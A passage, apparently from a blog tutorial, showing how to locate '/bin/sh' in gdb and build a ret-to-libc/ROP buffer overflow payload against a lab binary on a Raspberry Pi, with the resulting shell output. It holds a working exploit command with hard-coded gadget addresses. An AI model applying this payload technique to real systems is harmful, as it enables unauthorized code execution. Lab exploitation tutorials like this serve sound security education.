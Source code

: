 ### Address of `/bin/sh`
We can retrieve the address of `/bin/sh` in the same way inside `gdb`
```
    gef> find &system,+9999999,"/bin/sh"
        
        0x76f72b6c
warning: Unable to access 16000 bytes of target memory at 0x76f82574, halting search.
1 pattern found.
```
So, the final address is : $0x76f72b6c$


## Final Payload
The padding should be upto the byte before return address starts. For example in our testbed we used 100 char arrays. Therefore, the return address should start from $105^{th}$ position and the padding should be 104 character or similar size of NoP sled.

Note that, the addresses should be in `Little Endian` order.

```bash
$ ./overflow $(python -c 'print "A"*104+"\x64\xf1\xe5\x76"+"\xc8\xf9\xe7\x76"+"\x90\x42\xe7\x76"+"JUNK"+"\x6c\x2b\xf7\x76"')
```

## Output in Terminal
So, the output will look like as follows:
```bash
pi@raspberrypi:~$ ./overflow $(python -c 'print "A"*104+"\x64\xf1\xe5\x76"+"\xc8\xf9\xe7\x76"+"\x90\x42\xe7\x76"+"JUNK"+"\x6c\x2b\xf7\x76"')

$ 
$ ls
nothin	overflow  overflow.c  payload.py  rop_script
$ pwd
/home/pi/exploitation/mprotect
$ 

```
Bingo!!!

Have fun!!! 

## Reference
1. [ARM Exploitation - Defeating DEP - execute system()](https://blog.3or.de/arm-exploitation-defeating-dep-execute-system.html)


## Similar Other Posts
* [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)
* [ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)
* [ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing](https://shantoroy.com/security/avoid-segmentation-fault-return-from-shellcode/)
* [ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc](https://shantoroy.com/security/ret-to-libc-arm-exploitation-raspberry-pi/)
